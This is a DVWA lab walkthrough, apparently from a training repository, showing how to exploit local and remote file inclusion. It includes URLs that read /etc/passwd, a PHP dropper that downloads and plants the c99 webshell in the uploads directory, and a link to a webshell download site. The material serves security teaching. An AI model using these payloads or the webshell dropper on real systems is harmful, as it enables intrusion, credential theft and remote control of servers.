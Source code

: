 # File Inclusion

This vulnerability refers to the possibility of file inclusion within the execution of the Web application itself. At this point in the application it is possible to exploit the local inclusion of files (Local File Inclusion) or the remote inclusion of files (**Remote File Inclusion**).

To allow the inclusion of remote files in PHP there is a configuration directive in the `php.ini` file (to know the exact location of this file the simplest thing is to choose the option in the DVWA that indicates "**PHP Info**") that must contain the following value:

    allow_url_include = On

## Local File Include

To exploit this vulnerability, what an attacker will do is attempt to modify the URL of the page that appears in the web browser and attempt to include a file that may be locally hosted on the web server. 

The URL that appears would be:

    http://localhost/dvwa/vulnerabilities/fi/?page=file1.php

What the attacker may attempt to do is using the input parameter "page" to try to manipulate it in order to try to pass references to other local files that the application may not fully control. For example:

    http://localhost/dvwa/vulnerabilities/fi/?page=/etc/passwd

This way, the vulnerable application would try to include the local file (`/etc/passwd`) and show its contents in the web browser window, as can be seen in the following image.

![](../assets/fi01.png)
 
As can be seen, the `/etc/passwd` file was dumped directly into the attacker's browser - depending on the file, it may contain confidential information.

## Remote File Include

In the case of remote file inclusion, the situation is more serious, as the inclusion can lead to other types of files (including files with PHP code) that will be executed on the server where the vulnerable web application is installed.

It is very easy to check if an application is vulnerable to this type of attacks. In the specific case of this DVWA, what is intended is once again to manipulate the URL in order to include remote content.

We can try to include a remote site:

    http://localhost/dvwa/vulnerabilities/fi/?page=http://www.google.com

And as we can see, the Google site is included inside the DVWA site. It's a good sign, at least for the attacker!!!

![](../assets/fi02.png)

A more serious situation occurs when it is possible for an attacker to include a remote PHP file, which can be executed on the server where the vulnerable web application is running. Imagine for example the attacker being able to include a PHP WebShell - this would allow him to access the target system's filesystem (DVWA server) and control it remotely - this would be even more serious if the web server's apache process has privileged permissions.

To demonstrate this attack we will simulate the inclusion of "malicious" code on the site that then allows the installation of a web shell that allows remote administration of the site from an attacker's computer. Several steps in this process are listed below.

**First**, an attacker prepares a "malicious" PHP script, to manipulate the victim's web site (DVWA). This PHP script uses the uploads directory of the site (because it can be written by the apache process) and creates a directory and copies there a webshell (which can be found publicly on the Web). This script needs to be hosted on a web server. You can [do this directly in Kali Linux](https://techdhee.in/install-apache-on-kali-linux/).


    <?php
        $url = "http://localhost/payloads/c99.php";
        $dir = "/var/www/html/dvwa/hackable/uploads/webshell"; 
        mkdir($dir);
        $raw = file_get_contents($url);
        file_put_contents($dir."/c99.php", $raw);
        echo "You have been owned!!!";
    ?>


Second, the attacker, taking advantage of the file inclusion vulnerability, tries to inject his malicious code. To do so, it uses the following URL: 

    http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/payload/payload.php


Third, after the payload is executed, on the server of the vulnerable site in the directory "`/var/www/html/dvwa/hackable/uploads/`" a directory "`webshell`" is created where a file "`c99.php`" is downloaded - our webshell. You can download multiple webshells from [here](https://www.r57shell.net/).

Finally, since the webshell is now resident on the server, it can be executed directly using the following URL: `http://localhost/dvwa/hackable/uploads/webshell/c99.php`.
